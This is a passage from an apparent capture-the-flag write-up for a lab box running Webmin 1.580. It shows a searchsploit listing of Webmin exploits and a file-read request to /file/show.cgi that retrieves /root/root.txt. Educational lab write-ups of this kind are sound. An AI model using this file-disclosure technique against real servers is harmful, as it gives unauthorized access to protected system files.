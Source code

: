 ![](/assets/img/writeup_assets/game-zone/webmin-dash.png)

> What is the CMS version?
>
> Answer: `1.580`

## Privilege Escalation

Using `searchsploit` we can now find some exploits for `Webmin 1.580`
```shell-session
$ searchsploit webmin 1.58     
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Executio | unix/remote/21851.rb
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Discl | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Discl | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metas | linux/webapps/47330.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results


```

We can use the second exploit's logic. By simply navigating to `localhost:10000/file/show.cgi/root/root.txt`, we obtain the contents of the `root.txt` file.
